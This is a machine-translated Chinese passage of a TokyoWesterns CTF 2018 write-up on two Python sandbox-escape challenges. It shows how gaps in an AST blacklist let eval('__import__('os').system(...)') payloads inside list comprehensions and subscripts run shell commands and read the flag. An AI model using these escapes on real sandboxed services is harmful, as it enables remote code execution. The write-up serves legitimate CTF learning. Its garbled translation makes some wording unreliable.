# 东京西部 4th 2018 年第 4 期报道—第 5 部分

> 原文：<https://infosecwriteups.com/tokyowesterns-ctf-4th-2018-writeup-part-5-6d699f07f71c?source=collection_archive---------2----------------------->

07/09/2018 下午 15:07 UTC+2



东京西部 4th 2018 年第 4 期报道—第 5 部分

在这一部分中，我将讲述我是如何解决关于 Python 沙盒旁路的两个有趣挑战的。

# py sandbox—339 分



pysandbox

如你所见，这个任务分为两部分，每一部分都是绕过 Python 沙箱的挑战。

## py sandbox 1–161 磅

> **挑战:** [沙盒](https://github.com/Abdelkad3r/CTF/blob/master/TokyoWesterns%20CTF%204th%202018/misc/pysandbox/challenge/sandbox-1.py)

首先，让我们阅读并理解给定的 python 脚本，以了解这个挑战需要什么:

我们将输入一些东西，由 [**ast**](https://docs.python.org/2/library/ast.html) 解析，并通过 *eval* 函数:

```
if __name__ == '__main__':
    expr = sys.stdin.read()
    body = ast.parse(expr).body
    if check(body):
        sys.stdout.write(repr(eval(expr)))
    else:
        sys.stdout.write("Invalid input")
    sys.stdout.flush()
```

当系统检查*调用表达式中的*或*属性*时，将被视为无效，因为它被列入黑名单。

```
blacklist = [ast.Call, ast.Attribute]
```

我们有意见:

```
"""
	expr = BoolOp(boolop op, expr* values)
	     | BinOp(expr left, operator op, expr right)
	     | UnaryOp(unaryop op, expr operand)
	     | Lambda(arguments args, expr body)
	     | IfExp(expr test, expr body, expr orelse)
	     | Dict(expr* keys, expr* values)
	     | Set(expr* elts)
	     | ListComp(expr elt, comprehension* generators)
	     | SetComp(expr elt, comprehension* generators)
	     | DictComp(expr key, expr value, comprehension* generators)
	     | GeneratorExp(expr elt, comprehension* generators)
	     -- the grammar constrains where yield expressions can occur
	     | Yield(expr? value)
	     -- need sequences for compare to distinguish between
	     -- x < 4 < 3 and (x < 4) < 3
	     | Compare(expr left, cmpop* ops, expr* comparators)
	     | Call(expr func, expr* args, keyword* keywords,
			 expr? starargs, expr? kwargs)
	     | Repr(expr value)
	     | Num(object n) -- a number as a PyObject.
	     | Str(string s) -- need to specify raw, unicode, etc?
	     -- other literals? bools?

	     -- the following expression can appear in assignment context
	     | Attribute(expr value, identifier attr, expr_context ctx)
	     | Subscript(expr value, slice slice, expr_context ctx)
	     | Name(identifier id, expr_context ctx)
	     | List(expr* elts, expr_context ctx) 
	     | Tuple(expr* elts, expr_context ctx)

	      -- col_offset is the byte offset in the utf8 string the parser uses
	      attributes (int lineno, int col_offset)

        """
```

和属性:

```
attributes = {
            'BoolOp': ['values'],
            'BinOp': ['left', 'right'],
            'UnaryOp': ['operand'],
            'Lambda': ['body'],
            'IfExp': ['test', 'body', 'orelse'],
            'Dict': ['keys', 'values'],
            'Set': ['elts'],
            'ListComp': ['elt'],
            'SetComp': ['elt'],
            'DictComp': ['key', 'value'],
            'GeneratorExp': ['elt'],
            'Yield': ['value'],
            'Compare': ['left', 'comparators'],
            'Call': False, # call is not permitted
            'Repr': ['value'],
            'Num': True,
            'Str': True,
            'Attribute': False, # attribute is also not permitted
            'Subscript': ['value'],
            'Name': True,
            'List': ['elts'],
            'Tuple': ['elts'],
            'Expr': ['value'], # root node 
        }
```

我比较了属性中选中的部分和注释中标记为未选中的部分。发现 **Lambda** 中的**参数**在属性中未被选中，在注释中标记为已选中，并且**生成器**在属性中未被选中 **ListComp** 参数**和**在注释中标记为已选中。

**在评论:**

```
| Lambda(arguments args, expr body)
| ListComp(expr elt, comprehension* generators)
```

**在属性:**

```
'Lambda': ['body'],
'ListComp': ['elt'],
```

基于这个结果让我们尝试使用 [**生成器**](https://wiki.python.org/moin/Generators\) 与[***eval***](https://www.programiz.com/python-programming/methods/built-in/eval)**函数来绕过它！**

```
**[x for x in [eval("__import__('os').system('pwd')")]]**
```

**让我们连接到给定的服务器，并将其作为输入发送:**

****

**下面是显示旗帜的最终有效载荷:**

```
**[x for x in [eval("__import__('os').system('cat flag')")]]**
```

****

**提交第一个 pysandbox 的标志**

> **标志为:**tw CTF { go _ to _ next _ challenge _ running _ on _ port _ 30002 }****

**似乎这个标志将帮助我们连接到第二个服务器，所以如果你没有绕过第一个 python 沙箱，就不能绕过第二个，只要你猜测第二个 python 沙箱的端口是 **30002** 。**

## **py sandbox 2–176 分**

> ****挑战:** [沙盒](https://github.com/Abdelkad3r/CTF/blob/master/TokyoWesterns%20CTF%204th%202018/misc/pysandbox/challenge/sandbox-2.py)**

**让我们先连接到服务器:**

****

**第二个服务器连接**

**它需要第一个 python 沙盒挑战的标志来获得第二个 python 脚本，因此您必须解决第一个挑战才能解决第二个挑战。**

**为了获得第二个 python 沙盒的脚本，你必须给出第一个标志的[*【sha 512】*](https://fr.wikipedia.org/wiki/SHA-2#SHA-512)，如上所示。**

**下面是第二部分的 python 脚本:**

**如果你阅读这个脚本，你会发现 **Lambda** 中的**参数**在属性中没有被选中，在注释中没有被标记为选中，并且 **slice** 在属性中没有被选中**下标**参数**和**标记为在注释中被选中。**

****在评论:****

```
| Lambda(arguments args, expr body)
| Subscript(expr value, slice slice, expr_context ctx)
```

****在属性:****

```
'Lambda': ['body'],
'Subscript': ['value'],
```

**基于这个结果让我们试着用 [**片**](https://www.programiz.com/python-programming/methods/built-in/slice) 带[***eval*****函数绕过它！**](https://www.programiz.com/python-programming/methods/built-in/eval)**

```
****"a"[eval("__import__('os').system('pwd')")]****
```

****让我们连接到给定的服务器，并将其作为输入发送:****

********

****显示当前工作目录****

********

****身份证明（identification）****

********

****限位开关（Limit Switch）****

********

****猫标志 2****

****下面是显示旗帜的最终有效载荷:****

```
****"a"[eval("__import__('os').system('cat flag2')")]****
```

********

****提交第二个 pysandbox 的标志****

> ****标志是:**tw CTF { baby _ sandb0x _ escape _ with _ python }******

****这是一个有趣又有教育意义的挑战，我刚刚得到了一个关于如何逃离 python 沙盒并通过利用这个问题获得 shell 的好点子。****

****我要感谢东京西部团队的所有成员为这些好的挑战和组织，以及 HackXore 337 团队的成员在 CTF 期间与我分享信息。****

****实际上，对我来说这是一场精彩的演出；以 994 分获得第 56 名，错过了一些挑战，这很不容易。我希望能参加下一个版本，并享受这样一个更有趣和更好的挑战。****

********

****东京西部 CTF 第四届 2018 挑战委员会****

********

****HackXore 337 解决的挑战****

********

****东京西部 4th 2018 年第四名排行榜****

********

****东京西部 4th 2018 年第四届顶级球队排行榜****

****如果你正在寻找我的文章的其他部分，这里是列表:****

*   ****[**东京西部 4th 2018 年第 4 期报道—第 1 部分**](https://medium.com/bugbountywriteup/tokyowesterns-ctf-4th-2018-writeup-part-1-78558397cb7b)****
*   ****[**东京西部 4th 2018 年第 4 期报道—第二部分**](https://medium.com/bugbountywriteup/tokyowesterns-ctf-4th-2018-writeup-part-2-81c77cffe7ec)****
*   ****[**东京西部 4th 2018 年第 4 期报道—第 3 部分**](https://medium.com/bugbountywriteup/tokyowesterns-ctf-4th-2018-writeup-part-3-1c8510dfad3f)****
*   ****[**东京西部 4th 2018 年第 4 期报道—第 4 部分**](https://medium.com/@Abdelkad3r/tokyowesterns-ctf-4th-2018-writeup-part-4-f64e1583b315)****
*   ****[**东京西部 4th 2018 年第 4 期报道—第 5 部分**](https://medium.com/@Abdelkad3r/tokyowesterns-ctf-4th-2018-writeup-part-5-6d699f07f71c)****